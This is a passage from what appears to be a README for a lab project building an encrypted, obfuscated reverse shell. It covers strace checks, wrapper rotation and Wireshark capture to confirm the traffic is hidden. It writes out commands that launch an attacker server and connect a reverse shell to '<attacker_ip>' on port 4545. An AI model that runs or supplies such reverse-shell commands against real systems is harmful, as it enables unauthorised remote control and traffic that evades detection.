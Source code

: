 4. Look for behaviour like:
    - Dynamic system calls (`read`, `write`, `execve`, etc.)
    - Temporary files, memory allocations
    - Session-to-session differences in activity
    - See example `strace` logs: [strace1.log](./reports/strace1.log) and [strace2.log](./reports/strace2.log), as well as
        [strace3-stunnel.log](./reports/strace3-stunnel.log) run with `stunnel` 
5. Cross-reference with debug output:
    - If you're running with debug prints enabled, you'll also see helpful logs like:
        ```text
        [DEBUG] Using encrypt_wrapper: wrapper_v3
        [DEBUG] Using decrypt_wrapper: wrapper_v2
        ```

---

#### 🌐 C. Network Traffic Analysis with Wireshark

- Validate that the shell communicates securely and that traffic is encrypted and obfuscated.

**Step-by-Step:**

1. Identify your network interface (on Kali VM):
    ```bash
    ip a
    ```
    - Look for something like `eth0` or `enp0s3`

2. Start Wireshark (on Kali):
    ```bash
    wireshark
    ```
    - Select the correct interface and start capturing
    - Optional: filter by port to narrow view:
        ```
        tcp.port == 4545
        ```

3. Run the shell:
    - On Kali:
        ```bash
        python3 -m server.attacker_server
        ```
    - On Ubuntu:
        ```bash
        python3 -m shell.reverse_shell <attacker_ip> 4545
        ```

4. Type a few commands in the shell, such as:
    ```bash
    whoami
    ls -la
    pwd
    rotate
    ```
